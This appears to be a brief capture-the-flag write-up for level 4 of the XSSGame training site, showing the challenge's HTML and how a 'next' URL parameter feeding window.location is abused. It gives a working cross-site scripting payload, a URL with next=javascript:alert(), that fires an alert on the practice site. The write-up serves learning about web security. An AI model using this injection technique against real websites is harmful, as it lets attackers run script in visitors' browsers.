 ## XSSGame Level 4 Writeup
![Image](https://github.com/user-attachments/assets/55aa7360-555c-4165-866a-bd92fa199bdf)
 


When I entered the challenge, I was directed to another page via a sign-up form, which led me to a page with an input field for an email address.

I read the source code and found the following:

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body>
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      <!-- We're ignoring the email, but the poor user will never know! -->
      Enter email: <input id="reader-email" name="email" value="">
      <br><br>
      <a href="confirm?next=welcome">Next >></a>
    </center>
  </body>
</html>
``` 

The only interesting thing was the <a href="confirm?next=welcome"> link. This link would take me to the confirm page, where I found the following code:
 

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      Thanks for signing up, you will be redirected soon...
      <script>
        setTimeout(function() { window.location = 'welcome'; }, 1000);
      </script>
    </center>
  </body>
</html>
``` 

The key part was the `window.location = 'welcome'` inside the `<script>`, which redirects after 1 second.


At this point, I thought: "What if I inject a malicious URL into the next parameter?" So, I modified the URL:

Original URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=welcome
```
Modified URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

When I accessed the modified URL, the JavaScript alert was triggered as expected!

![Image](https://github.com/user-attachments/assets/a85205bf-623b-4319-bb2b-788d40437d5b)
